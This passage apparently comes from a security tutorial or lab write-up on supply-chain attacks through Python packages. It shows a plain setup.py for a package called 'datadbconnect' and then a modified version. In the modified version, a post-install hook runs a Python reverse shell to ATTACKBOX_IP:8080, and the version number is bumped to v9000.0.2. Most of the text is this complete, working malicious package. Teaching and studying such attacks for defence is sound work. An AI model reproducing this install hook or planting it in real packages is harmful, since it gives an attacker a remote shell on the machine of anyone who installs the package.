 ```py
from setuptools import find_packages
from setuptools import setup

VERSION = 'v0.0.1'
 
setup(
        name='datadbconnect',
        url='https://github.com/labs/datadbconnect/',
        download_url='https://github.com/labs/datadbconnect/archive/{}.tar.gz'.format(VERSION),
        author='Tinus Green',
        author_email='tinus@notmyrealemail.com',
        version=VERSION,
        packages=find_packages(),
        include_package_data=True,
        license='MIT',
        description=('''Dataset Connection Package '''
                  '''that can be used internally to connect to data sources '''),
)
```
In order to inject code execution, we need to ensure that the package executes code once it is installed. Fortunately, setuptools, the tooling we use for building the package, has a built-in feature that allows us to hook in the post-installation step. This is usually used for legitimate purposes, such as creating shortcuts to the binaries once they are installed. However, combining this with Python's os library, we can leverage it to gain remote code execution. Update your setup.py file with the following:
```py
from setuptools import find_packages
from setuptools import setup
from setuptools.command.install import install
import os
import sys

VERSION = 'v9000.0.2'

class PostInstallCommand(install):
     def run(self):
         install.run(self)
         print ("Hello World from installer, this proves our injection works")
         os.system('python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKBOX_IP",8080));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])\'')

setup(
        name='datadbconnect',
        url='https://github.com/labs/datadbconnect/',
        download_url='https://github.com/labs/datadbconnect/archive/{}.tar.gz'.format(VERSION),
        author='Tinus Green',
        author_email='tinus@notmyrealemail.com',
        version=VERSION,
        packages=find_packages(),
        include_package_data=True,
        license='MIT',
        description=('''Dataset Connection Package '''
                  '''that can be used internally to connect to data sources '''),
        cmdclass={
            'install': PostInstallCommand
        },
)
```
